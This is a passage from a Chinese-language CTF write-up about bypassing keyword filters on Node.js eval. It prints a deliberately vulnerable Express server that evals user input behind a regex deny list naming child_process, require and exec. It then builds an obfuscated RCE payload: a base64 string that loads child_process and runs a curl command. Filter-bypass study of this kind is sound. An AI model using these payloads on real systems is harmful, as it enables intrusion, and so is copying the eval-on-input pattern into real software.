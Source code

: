 > 这里还有个小trick，如果过滤了`eval`关键字，可以用`includes('eva')`来搜索`eval`函数，也可以用`startswith('eva')`来搜索

### <a class="reference-link" name="3.3%20%E8%BF%87%E6%BB%A4%E4%B8%AD%E6%8B%AC%E5%8F%B7%E7%9A%84%E6%83%85%E5%86%B5"></a>3.3 过滤中括号的情况

在`3.2`中，获取到eval的方式是通过`global`数组，其中用到了中括号`[]`，假如中括号被过滤，可以用`Reflect.get`来绕

> `Reflect.get(target, propertyKey[, receiver])`的作用是获取对象身上某个属性的值，类似于`target[name]`。

所以取eval函数的方式可以变成

```
Reflect.get(global, Reflect.ownKeys(global).find(x=&gt;x.includes('eva')))
```

后面拼接上命令执行的payload即可。



## 4. NepCTF-gamejs

这个题目第一步是一个原型链污染，第二步是一个`eval`的命令执行，因为本文主要探讨一下eval的bypass方式，所以去掉原型链污染，只谈后半段bypass，代码简化后如下:

```
const express = require('express')
const bodyParser = require('body-parser')
const app = express()

var validCode = function (func_code)`{`
  let validInput = /subprocess|mainModule|from|buffer|process|child_process|main|require|exec|this|eval|while|for|function|hex|char|base64|"|'|\[|\+|\*/ig;
  return !validInput.test(func_code);
`}`;

app.use(bodyParser.urlencoded(`{` extended: true `}`))
app.post('/', function (req, res) `{`
  code = req.body.code;
  console.log(code);
  if (!validCode(code)) `{`
    res.send("forbidden!")
  `}` else `{`
    var d = '(' + code + ')';
    res.send(eval(d));
  `}`
`}`)

app.listen(3000)
```

由于关键字过滤掉了单双引号，这里可以全部换成反引号。没有过滤掉`Reflect`，考虑用反射调用函数实现RCE。利用上面提到的几点，逐步构造一个非预期的payload。首先，由于过滤了`child_process`还有`require`关键字，我想到的是base64编码一下再执行

```
eval(Buffer.from(`Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5jb25zdHJ1Y3Rvci5fbG9hZCgiY2hpbGRfcHJvY2VzcyIpLmV4ZWNTeW5jKCJjdXJsIDEyNy4wLjAuMToxMjM0Iik=`,`base64`).toString())
```
